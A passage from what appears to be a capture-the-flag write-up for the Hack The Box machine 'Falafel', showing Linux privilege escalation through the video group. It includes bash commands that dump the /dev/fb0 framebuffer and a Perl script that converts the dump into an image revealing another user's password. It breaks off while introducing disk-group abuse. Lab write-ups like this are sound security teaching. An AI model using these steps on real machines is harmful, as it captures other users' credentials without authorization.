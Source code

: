 There is a useful blog post that lists what system groups are exploitable.
https://steflan-security.com/linux-privilege-escalation-exploiting-user-groups/
(Note: this box was launched back in 2018, while the blog post is published in 2021, therefore this is not how people were able to solve the box back then. I guess it's a little bit of cheating on my end)

## Abusing video group
The video group allows user to access video device, which is basically the screen output.
First, the following command are used to obtain the raw file of the video device output, along with the width and height of the video device.
```bash
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
```

Then, a perl script is used to convert the raw file into an image.
```perl
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

With this, the following image was obtained showing the password of user "yossi".
![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_20.png)
## Abusing disk group
Using the password, we can SSH into the server as yossi. We can see that yossi was assigned to some other system groups different from moshe.

